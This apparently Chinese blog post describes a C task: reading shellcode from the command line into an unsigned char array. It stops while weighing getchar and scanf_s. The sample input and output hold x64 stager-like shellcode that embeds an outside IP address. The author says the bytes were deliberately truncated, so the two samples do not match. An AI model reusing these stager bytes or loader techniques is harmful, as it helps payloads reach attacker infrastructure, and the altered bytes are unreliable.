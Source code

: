 >- 敬告：为避免有人恶意分析，本文中对 shellcode 作了部分删减。所以长度对不上。

>- 因为蚂蚁笔记官方图片服务器极其不稳定，如果本文出现图片加载不出的问题，请转到此链接查看 https://shimo.im/docs/YqpKhVYYgwjk9xY8/
# 0x01 需求

**奇怪的需求：**

从命令行接收 shellcode，存储为无符号十六进制 char 数组。

**示例输入：**

```
\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\x29\xd8\x28\x48\xb6\x74\xa0\xa8\xcd\x7a\xf7\xb9\x40\x63\xfd\xd1\x1d\x60\x8f\x48\xcd\xee\xd2\x52\x9a\x75\x14\x60\x9e\x78\x9b\x2e\xc1\x59\xc1\xc6\x50\x1b\x57\xbd\xdd\x68\xd7\xb1\xf2\x27\x78\x3c\x0e\x64\x3f\x8e\xaa\x33\x67\x89\x4d\x6b\x21\xf6\x89\x0a\x4a\xbf\xba\x1d\x08\x0e\x04\xec\x9a\xb3\xab\x4c\x64\xd9\x7a\xf0\xf2\x09\x3c\x49\x70\x16\xfd\x7a\x9c\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x35\x34\x2e\x32\x30\x39\x2e\x38\x36\x2e\x35\x37\x00\x12\x34\x56\x78
```

**示例输出：**

```
/* length: 892 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x51\xad\x27\xf6\x37\x7f\xb0\x7f\x93\x7f\x97\xa6\xcc\x22\xed\xa7\x91\x37\x6c\x86\x5b\x5d\xb4\x19\xeb\x39\x3e\xf7\xa8\xa6\x3e\xdc\x9b\xe2\x94\x4f\xc0\xe1\xd3\x7b\x1f\x93\x21\x65\x62\x45\x8b\x78\xf9\xbd\x53\x44\x64\xec\xeb\x27\xfa\xb6\x28\x5a\x02\x97\xaf\xb6\x52\x88\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x35\x34\x2e\x32\x30\x39\x2e\x38\x36\x2e\x35\x37\x00\x12\x34\x56\x78";
```

# 0x02 选择输入函数

输入函数可选：

- getchar()
- scanf_s()
- fgets()    # 从流、文件中获取字符串。

这里因为我是从命令行接收二进制流输入，所以选择 `getchar()` 或者 `scanf_s()` 都可以。


现在问题来了，我使用char字节数组接收命令行输入的字符串，这两个函数都需要输入字节数组的长度，我如何获得这个长度呢？


